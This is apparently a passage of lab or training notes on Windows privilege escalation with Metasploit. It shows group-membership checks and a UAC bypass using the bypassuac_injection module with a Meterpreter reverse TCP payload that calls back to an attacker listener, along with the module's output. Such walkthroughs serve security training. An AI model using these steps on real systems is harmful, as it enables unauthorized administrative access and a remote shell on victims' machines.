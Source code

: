```bash
    SeTimeZonePrivilege
    SeUndockPrivilege
# "admin" user my be part of the Administrators group
```

```bash
shell
```

- On the Windows target `cmd`

```bash
net users
	admin Administrator Guest

net localgroup administrators
    Members
    -------------
    admin
    Administrator
# Yes, "admin" is part of the Administrators group
# but doesn't have administrative privileges through the Meterpreter session
exit
```

#### Bypass UAC

```bash
background
sessions
	2 meterpreter x64/windows VICTIM\admin @ VICTIM 10.10.24.6:4444 -> 10.2.18.116:49219 (10.2.18.116)
```

```bash
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 5533
run
```

```bash
[*] Started reverse TCP handler on 10.10.24.6:5533 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
```

- Select the correct target - `x64`
